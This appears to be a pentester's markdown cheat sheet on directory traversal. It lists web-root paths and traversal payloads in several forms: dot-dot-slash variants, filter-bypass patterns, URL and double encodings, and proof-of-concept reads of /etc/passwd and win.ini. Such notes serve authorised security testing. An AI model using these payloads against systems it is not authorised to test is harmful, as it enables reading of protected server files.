 # Directory Traversal
## Common Directories
- Apache 
	- `/var/www`
	- `/var/www/images`
	- `/var/www/static`
- IIS
	- `C:\inetpub\wwwroot`

## Quick Checks
- `./<PATH>`
- `/etc/passwd` `/windows/win.ini`
- `.\/<PATH>`
- `.//<PATH>`
- `.\\<PATH>`
- `....//<PATH>`
- `....\/<PATH>`
### Encodings
**Worth trying to double-encode as well**
- . -> %2e
- / ->%2f
- \ -> %5c

## System Info / POC
- Unix
	- `../[../]*/etc/passwd`
- Windows
	- `..\[..\]*\windows\win.ini`